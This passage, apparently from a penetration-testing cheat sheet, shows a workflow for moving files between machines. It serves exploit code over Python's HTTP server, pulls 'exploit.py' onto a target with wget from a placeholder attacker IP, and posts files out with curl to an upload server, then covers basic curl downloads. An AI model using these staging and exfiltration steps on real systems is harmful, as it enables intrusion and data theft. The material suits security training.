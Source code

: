 
**Example Workflow**:

1. **Start SimpleHTTPServer on Your Machine**:

    For Python 3.x:
    ```bash
    cd /path/to/exploit/code
    python3 -m http.server 8000
    ```

    For Python 2.x:
    ```bash
    cd /path/to/exploit/code
    python -m SimpleHTTPServer 8000
    ```

2. **Download the File on the Target System Using `wget`**:
    ```bash
    wget http://<your_ip_address>:8000/exploit.py
    ```

3. **(Optional) Start the Upload Server to Accept Files**:
    ```bash
    sudo python3 -m uploadserver
    ```

4. **Upload a File from Another System Using `curl`**:
    ```bash
    curl -X POST http://<your_ip_address>:8000/upload -F 'files=@/path/to/your/file'
    ```

By using SimpleHTTPServer with `wget` for downloads and `uploadserver` with `curl` for uploads, you can easily transfer files between machines on the same network, facilitating tasks such as deploying exploit code, sharing data, or receiving files from remote systems.

#### `curl`

The `curl` command is a versatile tool used for transferring data from or to a server using various protocols such as HTTP, HTTPS, FTP, and more. It is widely used for downloading files, testing APIs, and performing web requests from the command line.

##### Basic Usage

- **Downloading a File:**

  ```bash
  curl -O https://example.com/file.txt
  ```

  The `-O` option saves the file with its original filename.

- **Downloading a File with a Custom Filename:**

  ```bash
  curl -o custom_name.txt https://example.com/file.txt
  ```

  The `-o` option allows you to specify a custom filename.
